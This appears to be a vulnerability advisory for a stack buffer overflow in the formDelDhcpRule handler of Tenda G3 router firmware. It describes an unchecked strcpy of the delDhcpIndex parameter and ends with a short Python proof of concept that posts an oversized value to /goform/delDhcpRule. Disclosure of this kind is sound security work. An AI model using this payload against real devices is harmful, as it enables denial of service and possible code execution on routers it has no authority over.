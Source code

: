# Tenda G3 formDelDhcpRule
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formDelDhcpRule function.
### Vulnerability details
Stack-based buffer overflow in function formDelDhcpRule on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formDelDhcpRule line 15, it reads in a user-provided parameter, and the variable delDhcpIndex is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formDelDhcpRule-1.png)
![](images/formDelDhcpRule-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/delDhcpRule'
payload = {
    "delDhcpIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
